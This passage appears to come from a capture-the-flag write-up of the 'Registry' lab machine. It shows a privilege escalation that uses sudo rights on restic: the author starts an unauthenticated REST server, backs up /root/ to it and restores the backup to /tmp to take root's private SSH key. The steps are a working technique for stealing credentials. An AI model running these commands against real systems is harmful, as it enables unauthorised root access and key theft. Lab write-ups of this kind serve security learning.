 now we should make a repo and start the server

    # on the box
    /usr/bin/restic init --repo root-backup/
    ./rest-server --path root-backup/ --no-auth

![/images/Registry/setup-repo.png](/images/Registry/setup-repo.png)

now our server is ready.

2- send a backup of root files/folder to our remote server

    www-data@bolt:/$ sudo /usr/bin/restic backup -r rest:http://localhost:8000/ /root/

![/images/Registry/backing.png](/images/Registry/backing.png)

we took a backup of **/root/** directory and send it to our local  server with snapshot number **6b33b704**

3- restore the backup then we will have access to all backup files

    bolt@bolt:/tmp$ restic -r /tmp/.not_hidden/root-backup/ restore 6b33b704 --target /tmp/             

we restored  **/roor-backup/ (**our repo name we initiated at the first step)  **content to /tmp/ directory**  

![/images/Registry/root-content.png](/images/Registry/root-content.png)

here is our **/root/** folder, notice that there is .ssh folder that contains root user private SSH Key

copy the SSH key to you machine then connect to the box as root user.

![/images/Registry/root.png](/images/Registry/root.png)

**And Rooted #**

### References

[Restic documentation](https://restic.readthedocs.io/en/latest/010_introduction.html)

[Restic REST server](https://github.com/restic/rest-server) 

[Anatomy of a hack: Docker Registry](https://www.notsosecure.com/anatomy-of-a-hack-docker-/images/Registry/)